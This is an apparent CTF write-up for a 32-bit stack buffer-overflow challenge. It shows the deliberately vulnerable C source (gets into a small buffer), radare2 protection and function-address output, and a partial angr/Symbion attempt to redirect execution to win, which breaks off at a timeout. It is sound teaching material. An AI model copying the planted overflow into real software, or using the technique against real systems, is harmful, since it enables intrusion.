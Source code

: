 #+title: Writeup

* the code:
#+begin_src c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);    (ref:bug)
}

void vuln(){
  char buf[BUFSIZE];

  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
#+end_src

* the writeup

** whats the Bugatti
so its pretty obvious that the bug is [[(bug)][here]]. we are doing a gets operation on some buffer, which means that arbitrary length input will make it to this function, and then we should return to wherever it is that we want to go.
** protections check
lets see what the protections are on this
#+begin_src bash :results output pp
r2 -c "i" -q ./vuln
#+end_src

#+RESULTS:
#+begin_example
fd       3
file     ./vuln
size     0x3d58
humansz  15.3K
minopsz  1
maxopsz  16
invopsz  1
mode     r-x
format   elf
iorw     false
block    0x100
type     EXEC (Executable file)
arch     x86
baddr    0x8048000
binsz    14541
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Ubuntu 9.4.0-1ubuntu1~20.04) 9.4.0
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
nx       false
os       linux
pic      false
relocs   true
relro    partial
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
#+end_example


you can see that pic is false, so we dont have to worry about addresses shifting on us

** getting our addresses
going to use r2 for this
#+begin_src bash :results output pp
r2 -qA -c "afl" ./vuln
#+end_src

#+RESULTS:
#+begin_example
0x080490e0    1 54           entry0
0x08049117    1 4            fcn.08049117
0x080490a0    1 6            sym.imp.__libc_start_main
0x08049140    4 49   -> 40   sym.deregister_tm_clones
0x08049180    4 57   -> 53   sym.register_tm_clones
0x080491c0    3 41   -> 34   sym.__do_global_dtors_aux
0x080491f0    1 6            entry.init0
0x080493c0    1 5            sym.__libc_csu_fini
0x08049130    1 4            sym.__x86.get_pc_thunk.bx
0x080493c5    1 4            sym.__x86.get_pc_thunk.bp
0x08049281    1 67           sym.vuln
0x08049050    1 6            sym.imp.gets
0x0804933e    1 4            loc.get_return_address
0x08049040    1 6            sym.imp.printf
0x080493cc    1 24           sym._fini
0x08049350    4 101          sym.__libc_csu_init
0x080491f6    3 139          sym.win
0x080490c0    1 6            sym.imp.fopen
0x08049090    1 6            sym.imp.exit
0x08049060    1 6            sym.imp.fgets
0x08049120    1 5            sym._dl_relocate_static_pie
0x080492c4    1 122          main
0x080490b0    1 6            sym.imp.setvbuf
0x08049070    1 6            sym.imp.getegid
0x080490d0    1 6            sym.imp.setresgid
0x08049080    1 6            sym.imp.puts
0x08049000    3 36           sym._init
#+end_example

so we see here that the address of the win function is at 0x080491f6, and our objective is for the gets function to write stuff onto the stack such that the address that gets returned is going to be written with the value of our win function

** solving it

so we are going to go ahead and do this in angr, specifically using the symbion angr. the objective is to find the gets size that has a property of overwriting where the return address is stored from the ~vuln~ stack frame. so that we dont have to do anything annoying, we can use symbion to execute the program up to the point that we are are at the first instruction of the vuln function. in this state, the stack pointer should be pointing to the 4 byte (because x86/32 bit pointers) return address. to verify, lets run symbion

#+begin_src jupyter-python :session one :results value pp
import os
import unittest
import subprocess
import angr
import claripy
import avatar2
from angr_targets import AvatarGDBConcreteTarget

binary_x64 = os.path.realpath("./vuln")

GDB_SERVER_IP = '127.0.0.1'
GDB_SERVER_PORT = 9999

subprocess.Popen("qemu-i386-static -g  %s %s" % (GDB_SERVER_PORT,'./vuln'),
                  stdout=subprocess.PIPE,
                  stderr=subprocess.PIPE, shell=True)
#+end_src

#+RESULTS:
: <subprocess.Popen at 0x7f99a84f0cd0>


just getting the qemu proccess open. now we gotta connect to it

#+begin_src jupyter-python :session one :results value pp
avatar_gdb = AvatarGDBConcreteTarget(avatar2.archs.x86.X86, GDB_SERVER_IP, GDB_SERVER_PORT)
#+end_src

#+RESULTS:

#+begin_src jupyter-python :session one :results value pp
p = angr.Project(binary_x64, concrete_target=avatar_gdb, use_sim_procedures=True,
                    page_size=0x1000)
state = p.factory.entry_state()
state.options.add(angr.options.SYMBION_SYNC_CLE)
state.options.add(angr.options.SYMBION_KEEP_STUBS_ON_SYNC)
simgr = p.factory.simgr(state)

address = 0x080491f6
simgr.use_technique(angr.exploration_techniques.Symbion(find=[address], memory_concretize=[], register_concretize=[], timeout=10))
exploration = simgr.run()
#+end_src

#+RESULTS:
: CRITICAL | 2022-07-06 14:23:16,979 | angr.engines.concrete | Timeout has been reached during resuming of concrete process
: 2022-07-06 14:23:16,979 | angr.engines.concrete.CRITICAL | Timeout has been reached during resuming of concrete process
: CRITICAL | 2022-07-06 14:23:16,985 | angr.engines.concrete | This can be a bad thing ( the ConcreteTarget didn't hit your breakpoint ) orjust it will take a while.
: 2022-07-06 14:23:16,985 | angr.engines.concrete.CRITICAL | This can be a bad thing ( the ConcreteTarget didn't hit your breakpoint ) orjust it will take a while.
